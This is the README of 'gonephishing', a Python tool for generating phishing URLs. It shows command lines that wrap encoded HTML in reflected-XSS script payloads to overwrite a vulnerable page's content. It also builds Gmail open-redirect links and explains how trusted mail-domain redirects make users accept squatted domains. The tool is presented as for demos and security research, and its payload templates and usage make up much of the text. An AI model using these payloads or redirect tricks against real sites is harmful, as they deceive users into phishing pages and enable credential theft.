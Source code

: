 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS

 Generate a minified version of an html file and optionally encode it then inject it into some javascript/html.  
 
 the containing javascript must contain a $-$ field to mark location to inject html into.  
 
 Current supported encoders are b64 (base64), hex ('\xAA\xBB' etc), pcnt (every character as url encoded).  If pcnt encoding isnt selected the string gets a standard urlencode
 
 IE only supports around 2000 characters in a get.


Create a file called test.html (the @ sign below signifies that you are using a file rather than direct input)
~~~
python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("$-$")</script>'  --encoders --encoders b64

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=("$-$")</script>'  --encoders --encoders hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("$-$")</script>'  --encoders --encoders b64,hex

python3 ./gonephishing.py --xss --html "@./test.html" --js '<script>document.body.innerHTML=atob("$-$")</script>'  --encoders --encoders pcnt
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



